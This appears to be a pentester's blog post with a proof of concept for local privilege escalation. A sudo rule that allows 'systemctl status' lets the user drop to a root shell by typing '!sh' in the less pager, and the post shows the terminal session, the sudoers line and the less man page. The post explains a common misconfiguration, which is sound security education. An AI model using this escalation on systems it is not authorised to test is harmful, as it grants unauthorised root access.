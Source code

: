 ```yaml
---
layout: post
title: sudo systemctl LPE
tags: sudo systemd systemctl privilege escalation linux pentest vulnerability LPE PoC
---
```

### Brief PoC showing the exploitation of an insecure sudo rule for journalctl, found in the wild.

Many of the sudo rules encountered in the wild are insecure. This is one such example.
Any other program printing its output via the pager `less` will also be vulnerable.
Many other pagers are similarly affected and can also be abused.

This is neither a vulnerability in `less`, `systemctl`, or `sudo`, but a misconfiguration by the admins.
Of course it could be argued that systemctl should not use a pager that can span new processes.
Generally speaking, I've reached the conclusion that sudo rules are harmful as they are often insecure.

### vulnerable sudo systemctl rule
This rould would allow *some_user* to check the status of *some_service*.
*/etc/sudoers.d/10_any_name_here*
```
some_user ALL = NOPASSWD: /bin/systemctl status some_service.service
```

### PoC
```
# Make the terminal so small that it has fewer lines than will be printed
some_user@pentest-app-1:/etc/sudoers.d$ id
uid=1004(some_user) gid=1004(some_user) groups=1004(some_user)
some_user@pentest-app-1:/etc/sudoers.d$ sudo /bin/systemctl status some_service.service

● some_service.service - SomeService HTTP Server
        Loaded: loaded (/lib/systemd/system/some_service.service; enabled; vendor preset: enabled)
[...]

!sh
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
```

### Explanation
systemctl appears to use the pager `less`.
`less` will be running with elevated privileges.
`less` will exit once it has displayed all its output.
By making our terminal really small, `less` will wait with exiting for us to scroll to the end.
We can use this to spawn a new process with the elevated privileges of `less`.
Thereby, potentially gaining a root shell.


### excert from *less*'s man page
```
       ! shell-command
              Invokes  a  shell  to run the shell-command given.  A percent sign (%) in the command is replaced by the name of the current file.  A pound sign (#) is re‐
              placed by the name of the previously examined file.  "!!" repeats the last shell command.  "!" with no shell command simply invokes a shell.  On Unix  sys‐
              tems, the shell is taken from the environment variable SHELL, or defaults to "sh".  On MS-DOS and OS/2 systems, the shell is the normal command processor.

       # shell-command
              Similar  to  the  "!"  command,  except that the command is expanded in the same way as prompt strings.  For example, the name of the current file would be
              given as "%f".
```

See also: [OverTheWire Bandit](https://overthewire.org/wargames/bandit/)

Years ago, when i was struggling with the brilliant OTW CTF challenge that taught me this nifty trick, little did I guess that this principle could ever be applicable in the wild. But as it turns out, it is not an uncommon misconfiguration pattern.
